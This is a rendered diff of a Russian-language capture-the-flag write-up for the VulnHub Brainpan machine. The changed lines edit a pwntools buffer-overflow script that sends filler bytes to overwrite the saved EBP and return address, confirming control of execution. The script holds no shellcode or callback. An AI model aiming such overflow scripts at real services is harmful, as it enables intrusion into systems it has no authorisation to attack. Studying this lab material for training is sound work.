

Before and after one commit to 0x2d-pentest/VulnHub, a Markdown page: 41-Brainpan/writeup.md, the part around the change printed below. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/41-Brainpan/writeup.md
+++ b/41-Brainpan/writeup.md
@@ -163,14 +197,12 @@ def start(argv=[], *a, **kw):
 
 #====================PAYLOAD DEFINITION=====================
 junk    = b'A'*520
-param_1 = b'A'*4
 EBP     = b'B'*4
 ret     = b'C'*4
 stack   = b'D'*12
 
 payload = b''.join([
     junk,
-    param_1,
     EBP,
     ret,
     stack,
@@ -178,10 +210,7 @@ payload = b''.join([
 #========================CONNECTION=========================
 io = start()
 print(io.recv().decode('utf-8'))
-
 io.sendline(payload)
-
-print(io.recv().decode('utf-8'))
 io.interactive()
 
 #========================INFORMATION========================
@@ -190,6 +219,6 @@ io.interactive()
 ```
 
 Если всё правильно рассчитал, то должен получить
-  -- **СССС** в адресе возврата
+  - **СССС** в адресе возврата
   - 3 строки букв **D** в стеке
 
````
Also changed, not shown: other parts of 41-Brainpan/writeup.md (+39 -1 lines).
